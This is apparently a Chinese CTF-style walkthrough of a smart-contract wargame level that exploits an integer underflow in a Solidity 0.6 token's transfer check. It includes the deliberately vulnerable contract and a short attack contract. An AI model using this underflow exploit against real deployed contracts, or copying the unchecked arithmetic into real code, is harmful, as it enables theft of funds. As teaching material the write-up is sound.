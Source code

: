 # 5. Token
### 原题
```
这一关的目标是攻破下面这个基础 token 合约
你最开始有20个 token, 
如果你通过某种方法可以增加你手中的 token 数量,
你就可以通过这一关,当然越多越好。
```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```
### 分析
这个合约是个简化的代币合约。看transfer方法，里面的计算逻辑是没有问题的。不可能做到凭空通过正常转账方式来破解。如果是遇到加减法的时候，我们就要特别注意溢出的问题了，特别是在低版本中，EVM是没有溢出检测的。当前的编译器版本是基于0.6。这个版本是没有数据溢出检测的。这是个可以操作的漏洞。
我们知道，如果是溢出，实际计算出来的数据可能就非常大(基础的二进制计算)。
但是有同学会说，你看有个判断条件在，怎么突破？
“require(balances[msg.sender] - _value >= 0)”，很简单，我们就在判断条件上开始做溢出的攻击。哪里有计算，我就攻击哪里！霸气！！
我们来尝试让合约的计算产生溢出。废话不多说，直接写攻击代码。记得攻击的时候给自己的另一个钱包地址转账，不要犯傻自转账。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.30;

interface IToken {
    function transfer(address _to, uint256 _value) external  returns (bool);
    function balanceOf(address _owner) external  view returns (uint256 balance);
}

contract TokenAttack {
    IToken token;
    

    constructor(address _token) {
      token = IToken(_token);
    }

    function attack(address account, uint256 _value) external{
        token.transfer(account, _value);
    }

    function balanceOf(address _owner) external  view returns (uint256 balance) {
        balance = token.balanceOf(_owner);
    }
}
```

![alt text](image.png)